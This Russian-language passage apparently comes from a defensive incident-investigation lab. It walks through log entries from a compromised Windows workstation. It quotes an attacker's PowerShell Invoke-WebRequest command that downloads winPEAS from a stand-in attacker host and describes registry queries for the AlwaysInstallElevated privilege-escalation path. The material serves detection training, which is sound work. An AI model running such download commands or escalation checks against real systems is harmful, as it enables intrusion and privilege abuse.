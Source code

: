 Загрузка файлов для автоматического обнаружения

Двигаясь дальше, мы видим очень подозрительный командлет PowerShell :powershell -c Invoke-WebRequest

Событие журнала, содержащее командлет PowerShell Invoke-WebRequest

Командлет Invoke-WebRequest извлекает данные с веб-сервера и может использоваться для загрузки файлов, взаимодействия с REST API и выполнения других операций HTTP/HTTPS. Его можно использовать в законных целях, как и другие рассмотренные нами команды. Однако злоумышленники также могут использовать командлет Invoke-WebRequest для загрузки вредоносных файлов или извлечения данных из скомпрометированной системы. Для проверки разверните журнал на изображении выше и посмотрите на поле process.command_line .

Взгляните на всю выполненную команду:

powershell -c Invoke-WebRequest -Uri "http://evilparrot.thm/winPEASany.exe" -OutFile "winPEAS.exe"

Из этого вывода следует, что злоумышленник использовал командлет Invoke-WebRequest для загрузки файла " winPEASany.exe " с сервера злоумышленника, сохранив его как winPEAS.exe . Если вы не знакомы с winPEAS , быстрый поиск в Google приведет вас к файлу winPEAS GitHub README , который описывает его как скрипт, который ищет возможные пути повышения привилегий на хостах Windows. Он может быстро определить потенциальные пути повышения привилегий, ища неправильно настроенные запланированные задачи, небезопасные ключи реестра и другие распространенные уязвимости.

Инструменты автоматического подсчета, такие как winPEAS, довольно часто используются злоумышленниками (если им удается незаметно внедрить их на взломанный хост), и это весьма красноречивый признак взлома рабочей станции Билла.

Запросы в реестр

После запуска winPEAS.exe, похоже, злоумышленник нашел потенциальный путь для повышения привилегий из выходных 
данных скрипта и сделал несколько запросов в реестр Windows для проверки. Реестр Windows представляет собой 
иерархическую базу данных, в которой хранятся параметры конфигурации и опции для операционной системы Windows, 
пользователей, политик и установленных приложений. Эти запросы идентифицируются командой, reg queryзапускаемой reg.exe.

Две длинные записи, содержащие команды запроса реестра

В частности, злоумышленник запрашивает реестр, чтобы узнать, установлена ли запись AlwaysInstallElevated . Эта 
запись определяет, могут ли пользователи устанавливать программы или обновления в системе с повышенными привилегиями,
что является риском безопасности, если установлено без надлежащего контроля. Это известный метод повышения 
привилегий , и он задокументирован в этом блоге Juggernaut-Sec, если вам интересно, как это работает.

Далее мы будем искать индикаторы того, что этот метод повышения привилегий был использован. Если злоумышленнику 
удалось получить более высокие уровни доступа к системе Билла, он мог бы выполнять более вредоносные действия, такие 
как создание бэкдоров для постоянного доступа или изменение конфигураций системы.
